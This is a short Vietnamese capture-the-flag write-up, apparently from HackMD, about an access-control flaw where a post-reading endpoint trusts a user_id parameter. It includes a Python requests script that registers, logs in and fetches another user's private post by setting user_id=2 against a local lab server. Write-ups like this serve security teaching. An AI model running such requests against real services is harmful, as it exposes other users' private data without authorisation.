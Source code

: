 ![image](https://hackmd.io/_uploads/SJhtmpXta.png)

nhưng bài không có cơ chế kiểm soát khi mình đổi lại **user_id=2** mà không để chương trình lấy user_id lấy từ session và có được flag

![image](https://hackmd.io/_uploads/SkTFNa7Fp.png)

![image](https://hackmd.io/_uploads/Ska0mTXKa.png)

mình viết lại script khai thác:

```python
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# from bs4 import BeautifulSoup

url = 'http://127.0.0.1:24004'

session = requests.Session()
# đăng ký tài khoản
data = {
    'username': 'cuong',
    'password': 123
}

response = session.post(
    url + '/index.php?action=register',
    data=data,
    verify=False,
)

print(response.text) # verify

# đăng nhập tài khoản
response = session.post(
    url + '/index.php?action=login',
    data=data,
    verify=False
)

print(response.text) # verify

# đăng bài viết ở dạng riêng tư -> public = 0
data_content = {
    'content': 'cuong',
    'public': 0
}

response = session.post(
    url + '/post.php?action=create',
    data=data_content,
    verify=False,
)

print(response.text) # verify

# hiển thị bài đăng có id  của crush
response = session.get(
    url + '/post.php?action=read&id=a7381cbd118b5699a69c576c7a2205ef&user_id=2',
    verify=False,
)
```